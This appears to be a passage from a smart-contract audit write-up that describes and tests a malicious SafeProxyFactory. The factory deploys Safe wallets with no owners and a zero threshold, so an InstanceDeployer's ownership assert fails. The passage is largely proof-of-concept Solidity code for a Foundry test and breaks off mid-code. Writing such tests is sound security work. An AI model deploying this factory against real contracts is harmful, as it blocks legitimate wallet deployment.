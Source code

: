 ```solidity
            "",
            address(0),
            address(0),
            0,
            address(0)
        );

        // Deploy the SafeProxy with malformed initialization data
        proxy = super.createProxyWithNonce(masterCopy, malformedInitData, saltNonce);
    }
}
```

**Explanation:**
- **Purpose:** This malicious factory overrides the standard `createProxyWithNonce` function to deploy Safe contracts without any owners.
- **Impact:** When the `InstanceDeployer` uses this factory to deploy a new Safe, the `assert` statement checking for ownership will fail, consuming all remaining gas and reverting the transaction.

#### **b. Testing the Vulnerability Using Foundry**

```solidity
pragma solidity 0.8.25;

import "forge-std/Test.sol";
import "../src/InstanceDeployer.sol";
import "../src/TimelockFactory.sol";
import "../src/Guard.sol";
import "../src/RecoverySpellFactory.sol";
import "../src/BytesHelper.sol";
import "../src/Constants.sol";
import "../src/utils/Create2Helper.sol";
import "../lib/openzeppelin-contracts/contracts/access/AccessControl.sol";

// Interface for Safe contracts
interface ISafe {
    function isOwner(address owner) external view returns (bool);
    function getOwners() external view returns (address[] memory);
}

contract MaliciousSafeProxyFactory is SafeProxyFactory {
    /**
     * @dev Override the `createProxyWithNonce` function to deploy a Safe with incorrect ownership.
     */
    function createProxyWithNonce(
        address masterCopy,
        bytes memory initializer,
        uint256 saltNonce
    ) public override returns (SafeProxy proxy) {
        // Malformed initialization data: No owners
        bytes memory malformedInitData = abi.encodeWithSignature(
            "setup(address[],uint256,address,bytes,address,address,uint256,address)",
            new address[](0), // No owners
            0,               // Threshold
            address(0),
            "",
            address(0),
            address(0),
            0,
            address(0)
        );

        // Deploy the SafeProxy with malformed initialization data
        proxy = super.createProxyWithNonce(masterCopy, malformedInitData, saltNonce);
```